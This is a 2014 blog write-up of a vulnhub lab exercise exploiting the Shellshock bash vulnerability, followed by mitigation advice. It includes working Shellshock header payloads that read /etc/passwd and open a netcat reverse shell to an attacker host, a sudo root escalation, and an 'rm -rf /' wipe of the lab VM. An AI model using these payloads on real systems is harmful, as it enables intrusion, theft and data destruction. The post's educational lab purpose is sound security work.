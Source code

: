 ```yaml
---
layout: post
title: "Basic Shellshock exploitation"
date: 2014-10-07 22:38:09 +1100
comments: true
categories: [shellshock, cve-2014-6271, bash bug, exploit, writeup, vulnhub]
---
```


Unless you were living under the rock for the last 2 weeks or so, you probably heard about a vulnerability in Bourne Again Shell (BASH), aka "Shellshock" (who comes up with those names?!) aka "Bash bug" aka "OMG! Internet is coming to an end" aka... you get the idea :)

Working in security field, I have heard about it a lot, maybe even too much in the last couple weeks and, after it has been publicly announced, I saw lots of failed exploitation attempts hitting Internet facing servers under my jurisdiction.

I have researched the vulnerability ([CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) and other flavours of it) a fair bit, saw heaps of malicious traffic, but actually never seen a successful exploit (well, that's a good thing I guess...) and never had a chance to play with it on an actual vulnerable machine.

And yet, here it comes [vulnhub.com](http://vulnhub.com) again with a tiny VM created specifically for this purpose - to get your hands dirty with this particular vulnerability. So... let's get started, shall we?

<!-- more -->

Shock that shell
----------------

I'll omit the recon phase and just jump straight to the essence.

We have a simple VM running a web server on port 80, the site looks like this:

![Main Page](/images/posts/2014-10-07-basic-shellshock-exploitation/main_page.png "Main Page")

Let's look at the source. Immediatelly we see something interesting:

{% codeblock lang:js %}
<script>
    function status() {
        $.getJSON("/cgi-bin/status", function (data) {           
            $.each( data, function( key, val ) {
                $('#infos').append ( "<li><b>"+key+"</b>: " + val + "</li>" );
            });
        });
    } 
    status();
</script> 
{% endcodeblock %}

We have a cgi script that runs system commands and displays them on a webpage - all conditions met for our Shellshock vulnerability!

All we need to do now is to exploit the vulnerability by providing a crafted shell command in one of the HTTP headers, that then will be processed by the webserver as an environment variable and, as a result, executed on the system.

Generally, the most common HTTP headers that I saw being targeted are:

* User-Agent
* Host
* Referer

Let's try modifying User-Agent header. I'll be using Burp repeater as it should be the easiest to play around with and modify the request when needed.

Start up burpsuite:

{% codeblock %}
root@kali:~# burpsuite
{% endcodeblock %}

And craft the HTTP request:

*Note: make sure there are 2 empty lines at the end of your raw request in Burp, otherwise the request won't work!*

![ burp ](/images/posts/2014-10-07-basic-shellshock-exploitation/burp.png "Burp")

{% codeblock %}
GET /cgi-bin/status HTTP/1.0
user-agent: () { :; }; /bin/bash -c 'echo vulnerable!'


{% endcodeblock %}

Response:

![ Burp fail response ](/images/posts/2014-10-07-basic-shellshock-exploitation/burp_fail.png "Burp fail response")

Hmm... no response displayed on the screen, neither in the headers (I saw some examples where echo came back in headers, I guess it's not the case in this instance).

Let's try some other commands:

{% codeblock %}
GET /cgi-bin/status HTTP/1.0
user-agent: () { :; }; /bin/bash -c 'cat /etc/passwd'


{% endcodeblock %}

But again, the same error message and no output displayed back. Is it even working? Let's try to ping back our Kali.

{% codeblock %}
GET /cgi-bin/status HTTP/1.0
user-agent: () { :; }; /bin/bash -c 'ping -c 3 172.16.246.129'


{% endcodeblock %}

Listening for ping:

{% codeblock %}
root@kali:~# tcpdump -i eth0 -n icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
20:02:14.854659 IP 172.16.246.132 > 172.16.246.129: ICMP echo request, id 18947, seq 0, length 64
20:02:14.854706 IP 172.16.246.129 > 172.16.246.132: ICMP echo reply, id 18947, seq 0, length 64
20:02:15.856028 IP 172.16.246.132 > 172.16.246.129: ICMP echo request, id 18947, seq 1, length 64
20:02:15.856050 IP 172.16.246.129 > 172.16.246.132: ICMP echo reply, id 18947, seq 1, length 64
20:02:16.856425 IP 172.16.246.132 > 172.16.246.129: ICMP echo request, id 18947, seq 2, length 64
20:02:16.856451 IP 172.16.246.129 > 172.16.246.132: ICMP echo reply, id 18947, seq 2, length 64
{% endcodeblock %}

![ Burp success ](/images/posts/2014-10-07-basic-shellshock-exploitation/burp_success.png "Burp success")

Aha! So it works and we're actually getting output displayed on the screen. How about chaining the commands then?

{% codeblock %}
GET /cgi-bin/status HTTP/1.0
user-agent: () { :; }; /bin/bash -c 'ping -c 3 172.16.246.129; id; cat /etc/passwd'


{% endcodeblock %}

![ Burp chain success ](/images/posts/2014-10-07-basic-shellshock-exploitation/burp_success_chain.png "Burp chain success")

As expected, all works fine! As you can see, we can do quite a lot of damage here. Let's get a shell (conviniently netcat is installed):

{% codeblock %}
GET /cgi-bin/status HTTP/1.0
user-agent: () { :; }; /bin/bash -c 'nc 172.16.246.129 31337 -e /bin/sh'


{% endcodeblock %}

Waiting for reverse shell:

{% codeblock %}
root@kali:~# nc -lvp 31337
listening on [any] 31337 ...
172.16.246.132: inverse host lookup failed: Unknown server error : Connection timed out
connect to [172.16.246.129] from (UNKNOWN) [172.16.246.132] 34190
whoami
pentesterlab
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
{% endcodeblock %}

And we have a shell! Just like this... scary huh?

Since there was no particular goal in the challange (no flag or anything), let's just try to get a root and do more damage (just for fun and because... I always wanted to do it :P).

{% codeblock %}
sudo -l
User pentesterlab may run the following commands on this host:
    (root) NOPASSWD: ALL
{% endcodeblock %}

Really? All of them? Easy, let's spawn a root shell.

{% codeblock %}
sudo -s
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
rm -rf /

{% endcodeblock %}

And it's gone.

Obligatory disclaimer: *DON'T TRY IT AT HOME! I take no responsibility for you wiping your (or anyone else's) filesystem off!*

Imagine if that actually happened on a production server you own, containing lots of business critical data and/or services... yeah, it was that simple (at least to get an initial shell).

Mitigation
----------

Since you have seen how easy it is to compromise vulnerable servers, the next question is, how to mitigate it?

First and foremost, that's a general advice, keep your system patched and up-to-date! As soon as a critical security patch is released, apply it! Especially on your Internet facing servers as they WILL sooner or later be scanned and heaps of exploits fired at them.

With this particular "Shellshock" vulnerability, vendors weren't great regarding releasing a patch. It took them a while and the patch that was released actually didn't fix the vulnerability completely (hence another 4 or so CVEs emerging shortly after the inital one).

So, what else can you do? Well, your environment set-up may come to the rescue here. Generally your Internet facing servers would be sitting behind a set of load balancers, proxies and firewalls - this *may* provide sufficient protection in some cases (e.g. egress firewall rules restricting outbound traffic, load balancers splitting traffic onto different servers, etc.).

If you have an IPS, deploy the rules to block malicious traffic - but as with IPSes, you may need to deal with false-positives. If you have an IDS, get a team to monitor it for alerts triggering on exploit traffic, analyse responses and potentially block abusing IP (but it's kind of a whack-a-mole game at that point).

And of course, as a general rule of thumb, if you don't need it - disable it! Use KSH or CSH or anything else instead (if you can).

There was (and probably still is), quite a bit of panic around this particular vulnerability, however, there must be quite a lot of conditions satisfied to successfully exploit it, therefore I don't think it's actually THAT easy to exploit it in the wild. Of course, there will be (and already are) instances of breaches utilising this vulnerability, but they would be quite specifically crafted for targeted environment. You probably won't be hugely successful going around and spraying an entire Internet with the same payload and hoping for the best... Heartbleed was a lot easier in that regard, but that's a completely different story :)

